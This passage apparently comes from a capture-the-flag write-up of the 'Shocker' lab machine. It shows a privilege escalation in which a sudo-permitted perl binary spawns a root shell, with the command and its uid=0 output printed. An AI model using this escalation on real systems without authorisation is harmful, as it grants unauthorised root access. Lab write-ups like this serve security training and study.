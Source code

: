 Heading over to [GTFObin](https://gtfobins.github.io/gtfobins/perl/) I find a privilage escalation using `perl -e`

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
shelly@Shocker:/usr/lib/cgi-bin$ cd /home/shelly
cd /home/shelly
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
```
